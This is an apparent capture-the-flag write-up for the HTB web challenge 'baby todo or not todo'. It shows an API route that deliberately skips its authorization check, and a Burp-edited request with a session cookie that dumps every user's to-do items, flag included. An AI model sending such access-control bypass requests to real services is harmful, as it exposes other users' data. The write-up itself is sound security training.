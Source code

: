 ```yaml
---
title: "baby todo or not todo"
date: 2021-10-27T12:49:00-00:00
publishdate: 2021-07-19T18:00:00-00:00
releasedate: 2020-11-19T00:00:00-00:00
draft: false
hideTitle: false
Cover: /images/matrix-map.jpeg
CoverCaption: "Map of the world, shown in green zeroes and ones like the Matrix"
icon: /images/padlock-square.png
toc: true
tags: ["SQL", "Broken API"]
categories: ["Challenge", "Walkthrough", "HTB", "Web"]
description: "I'm so done with these bloody HR solutions coming from those bloody HR specialists, I don't need anyone monitoring my thoughts, or do I... ?"
---
```

## INTRODUCTION

This challenge is a docker container, coming packaged with a zip of all of the whole docker container (it's a "white box" challenge.)

Open up the source code and read through it, get a sense of how the app is supposed to work. The name of the folder indicates "broken authentication control", so that's probably where this is headed.


## FIRST TAKE

The db file **schema.sql** is the first file to read. I find it's easiest to get a handle on how an app works if you can see how the data is stored. The schema reveals what we should find once we do open the database. Once the website is running, the flag will be present in the table **todos** (in the **name** field) with assignee = admin

```sql
DROP TABLE IF EXISTS `users`;
DROP TABLE IF EXISTS `todos`;

CREATE TABLE `users` (
	`id` INTEGER PRIMARY KEY AUTOINCREMENT,
	`name` TEXT NOT NULL,
	`secret` TEXT NOT NULL
);

INSERT INTO `users` (`name`, `secret`) VALUES
	('admin', '%s');

CREATE TABLE `todos` (
	`id` INTEGER PRIMARY KEY AUTOINCREMENT,
	`name` TEXT NOT NULL,
	`done` INTEGER NOT NULL,
	`assignee` TEXT NOT NULL
);

INSERT INTO `todos` (`name`, `done`, `assignee`) VALUES
	('HTB{f4k3_fl4g_f0r_t3st1ng}', 0, 'admin');
```

This gives us an idea of what the final step of the challenge might be.

Even after ready only app.py, it is clear that the app uses session data to identify the user. There is a username, and a secret; the server checks consistency between these and returns the to-do items accordingly.


## STRAIGHT TO THE FLAG

There is one snippet in the source code that, when you read it, you will realize all of that reading was for nothing. Inside **routes.py** there is a hint:

```python
...
# TODO: There are not view arguments involved, I hope this doesn't break
# the authentication control on the verify_integrity() decorator
@api.route('/list/all/')
def list_all():
	return jsonify(todo.get_all())
...
```

So there is one route that just dumps the database without checking what user requested it? Nice.

I ran the website's docker container, then caught (in Burp) the first request my browser performed. This is a GET that loads all of the current to-do items. It is trivial to change out the endpoint **/list/user12345678** to **/list/all**, while retaining the secret and cookie:

```http
GET /api/list/all/?secret=C038417EFc3A24D HTTP/1.1
Host: 139.59.183.98:32015
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.183.98:32015/
Connection: close
Cookie: session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXIzMTgzYjgwZCJ9.YWDKPQ.jkmXBByrr67jX8-sD2tEUpRKLzw
```

As described in routes.py, the response is a dump of the whole database.

```http
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 687
Server: made with <3 by makelarides
Vary: Cookie
Date: Fri, 08 Oct 2021 23:05:54 GMT

[{"assignee":"admin","done":false,"id":1,"name":"how are you seeing this???"},{"assignee":"admin","done":true,"id":2,"name":"give makelaris and jr a kiss <3"},{"assignee":"admin","done":false,"id":3,"name":"do homework"},{"assignee":"admin","done":false,"id":4,"name":"take groceries"},{"assignee":"admin","done":true,"id":5,"name":"world Domination"},{"assignee":"admin","done":false,"id":6,"name":"HTB{l3ss_ch0r3s_m0r3_h4ck1ng...right?!!1}"},{"assignee":"admin","done":false,"id":7,"name":"test"},{"assignee":"user3183b80d","done":false,"id":8,"name":"hack"},{"assignee":"user3183b80d","done":false,"id":9,"name":"eat"},{"assignee":"user3183b80d","done":false,"id":10,"name":"sleep"}]

```

Well how about that; we didn't even need to log in as admin ;)
